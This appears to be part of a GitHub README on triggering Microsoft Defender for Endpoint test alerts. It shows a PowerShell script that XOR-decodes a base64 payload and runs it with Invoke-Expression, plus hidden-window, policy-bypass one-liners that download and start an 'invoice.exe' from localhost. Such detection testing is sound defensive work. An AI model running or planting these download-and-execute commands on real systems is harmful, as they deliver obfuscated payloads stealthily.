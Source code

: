 ```powershell

# Download the file
Invoke-WebRequest -Uri $url -OutFile $destination

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection')

$base64String = Get-Content -Path "C:\Temp\MTP_Fileless_Recon.txt"

Try {
    $contentBytes = [System.Convert]::FromBase64String($base64String)
} Catch {
    $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3))
}

$i = 0

$decryptedBytes = @()

$contentBytes.ForEach{
    $decryptedBytes += $_ -bxor $xor[$i]
    $i++
    if ($i -eq $xor.Length) {
        $i = 0
    }
}

Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```


Alerts <br>
<img width="2130" alt="image" src="https://github.com/guguji666666/GJS-MDE/assets/96930989/8acbaa10-d61b-4e1a-9f1e-d4163a6deb33">

Incidents <br>
<img width="2142" alt="image" src="https://github.com/guguji666666/GJS-MDE/assets/96930989/d9af45ce-b65d-4ac0-a411-f750ed22d03f">

## 2. EDR alert 

[Generate EDR alert](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/run-detection-test?view=o365-worldwide#verify-microsoft-defender-for-endpoint-onboarding-of-a-device-using-a-powershell-detection-test)

```cmd
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-MDATP-test\\invoice.exe');Start-Process 'C:\\test-MDATP-test\\invoice.exe'
```

`Bat` file to download EICAR sample file <br>
```bat
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference = 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\project\\invoice.exe');Start-Process 'C:\\project\invoice.exe'
```
